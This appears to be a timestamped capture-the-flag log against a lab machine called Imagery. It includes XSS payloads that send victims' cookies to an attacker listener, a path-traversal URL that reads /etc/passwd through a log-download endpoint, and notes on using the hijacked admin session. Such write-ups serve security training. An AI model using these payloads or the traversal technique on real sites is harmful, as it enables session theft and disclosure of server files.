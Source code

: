 
```html
<img src=x onerror=“new Image().src=‘http://10.10.14.11:8000/=‘+encodeURIComponent(document.cookie)">

<img src=x onerror=fetch('http://10.10.14.11:8000/?c='+btoa(document.cookie))>
```


[00:48:28] The above fetched me cookie in base64 and I've decoded and navigated to /admin/users . And this is what I got

{"anyAdminExists":true,"success":true,"users":[{"displayId":"a1b2c3d4","isAdmin":true,"isTestuser":false,"username":"admin@imagery.htb"},{"displayId":"e5f6g7h8","isAdmin":false,"isTestuser":true,"username":"testuser@imagery.htb"}]}

[00:49:44] And there is a admin panel
[00:50:41] And we can do ffuf with this admin account session for dirbusting
[00:52:01] Lets take a break and start tomorrow 


-------------------- 03-OCTOBER-2025 -------------------------------
[09:26:28] Okay you'll get bug report XSS callback when you upload an image . Huhh 
[09:34:50] Lets revisit the dir bustinng ouput to see what endpoints we can visit as admin .
[09:37:57] Running ffuf with new wordlist with admin session and visited the debug and console endpoints . But NOPE
[09:39:37] Lets see what download log button gives out
[09:40:35] Okay we have LFI from the get_system_log endpoint
	- http://10.10.11.88:8000/admin/get_system_log?log_identifier=/../../../../../../../../../etc/passwd

[09:41:06] And we have these users
	- root:x:0:0:root:/root:/bin/bash
	- web:x:1001:1001::/home/web:/bin/bash
	- mark:x:1002:1002::/home/mark:/bin/bash

[09:43:07] Lets see etc/hosts and see what we can get
	127.0.0.1 localhost
	127.0.0.1 Imagery imagery.htb

[09:44:11] Maybe there is a folder in /var/www called imagery.htb ??
[09:44:37] And lets look at flask dir structure to see what we can get interestingly

	my-flask-app/
	├── app/
	│   ├── __init__.py
	│   ├── views.py  # or routes.py
	│   ├── models.py
	│   ├── forms.py
	│   ├── static/
	│   │   ├── css/
	│   │   │   └── style.css
	│   │   ├── js/
	│   │   │   └── main.js
	│   │   └── img/
	│   │       └── logo.png
	│   └── templates/
	│       ├── base.html
	│       ├── index.html
	│       └── auth/
	│           └── login.html
	├── config.py
	├── run.py
	├── requirements.txt
	├── .flaskenv
	└── venv/
